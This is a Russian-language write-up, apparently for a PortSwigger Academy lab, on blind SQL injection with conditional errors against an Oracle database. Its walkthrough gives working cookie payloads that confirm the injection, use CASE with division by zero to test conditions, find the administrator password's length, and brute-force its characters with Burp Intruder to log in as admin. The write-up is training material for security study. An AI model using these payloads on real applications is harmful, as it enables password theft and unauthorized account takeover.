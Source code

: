 # Blind SQL injection with conditional errors

## Theory

<h3>Вызов условных ответов путем триггера ошибок SQL</h3>

В этой ситуации часто можно заставить приложение возвращать условные ответы, вызывая ошибки SQL, в зависимости от введенного условия. Это включает в себя изменение запроса таким образом, чтобы он вызывал ошибку базы данных, если условие истинно, но не если условие ложно. Очень часто необработанная ошибка, выдаваемая базой данных, приводит к некоторой разнице в ответе приложения (например, к сообщению об ошибке), что позволяет нам сделать вывод об истинности внедренного условия.

Чтобы увидеть, как это работает, предположим, что два запроса отправлены по очереди, содержащие следующие значения TrackingId cookie:
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

Входные данные используют ключевое слово CASE для проверки условия и возврата другого выражения в зависимости от того, истинно ли выражение. При первом вводе выражение CASE оценивается как «a», что не вызывает никакой ошибки. При втором вводе он оценивается как 1/0, что вызывает ошибку деления на ноль. Предполагая, что ошибка вызывает некоторую разницу в HTTP-ответе приложения, мы можем использовать эту разницу, чтобы сделать вывод, верно ли введенное условие.

Используя эту технику, мы можем получать данные, проверяя один символ за раз:
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/1.png)

Выбираем пункт Pets. Отправим запрос, чтобы удостовериться, что страница уязвима к SQL-иньекции. При вводе **''** синтаксическая ошибка исчезла, что оказывает влияние на ответ.
```
qGA';

qGA'';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/3.png)

Теперь нужно подтвердить, что сервер интерпретирует инъекцию как SQL-запрос, т. е. что ошибка является синтаксической ошибкой SQL, а не ошибкой любого другого типа.
```
qGA'||(select+'')||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/4.png)

Запрос возвращает ошибку, возможно дело в базе данных, попробуем модифицировать запрос для базы данных Oracle.
```
qGA'||(select+''+from+dual)||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/5.png)

Чтобы убедиться, что таблица Users существует, отправим следующий запрос. **Where rownum = 1** является важным условием. Мы используем его, чтобы запрос не возвращал более одной строки, что нарушит нашу конкатенацию.
```
qGA'||(select+''+from+users+where+rownum=1)||';
```

* Rownum – это псевдостолбец, значения которого можно увидеть, включив его в любой результирующий набор, например в список столбцов оператора SELECT. Значениям столбца ROWNUM присваиваются номера 1, 2, 3, 4, ... N, где N – число строк результирующего набора запроса.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/6.png)

Используем поведение приложения для проверки условий. Отправим следующие запросы. Ошибка исчезает, значит мы можем инициировать ошибку при истинности определенного условия. Оператор CASE проверяет условие и оценивает одно выражение, если условие истинно, и другое выражение, если условие ложно. Первое выражение содержит деление на ноль, что вызывает ошибку. В этом случае две полезные нагрузки проверяют условия **1=1** и **1=2** и получают ошибку, когда условие истинно.

```
qGA'||(select+case+when+(1=1)+then+to_char(1/0)+else+''+end+from+dual)||';

qGA'||(select+case+when+(1=2)+then+to_char(1/0)+else+''+end+from+dual)||';
```

* Функция TO_CHAR преобразует число или дату в строку.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/7.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/8.png)

Мы можем использовать это поведение, чтобы проверить, существуют ли определенные записи в таблице. Используем следующий запрос, чтобы проверить, существует ли пользователь с именем Administrator. Убедимся, что условие истинно (получена ошибка), подтвердив наличие пользователя с именем Administrator.
```
qGA'||(select+case+when+(1=1)+then+to_char(1/0)+else+''+end+from+users+where+username='administrator')||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/9.png)

Следующим шагом является определение количества символов в пароле пользователя Administrator. Для этого используем следующий запрос. Изменяем цифру length(password)>**19** в запросе, чтобы узнать количество символов в пароле.

```
qGA'||(select+case+when+length(password)>19+then+to_char(1/0)+else+''+end+from+users+where+username='administrator')||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/10.png)

После определения длины пароля следующим шагом будет проверка символа в каждой позиции, чтобы определить его значение. Отправляем запрос в Burp Intruder и заключаем нужные нам значения для перебора в специальные символы. В фильтре осталяем только ответы к кодом 500. Получаем пароль.

```
qGA'||(select+case+when+substr(password,1,1)='a'+then+to_char(1/0)+else+''+end+from+users+where+username='administrator')||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/11.png)

Логинимся под администратора и получаем ответ от приложения.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_conditional_errors/assets/12.png)
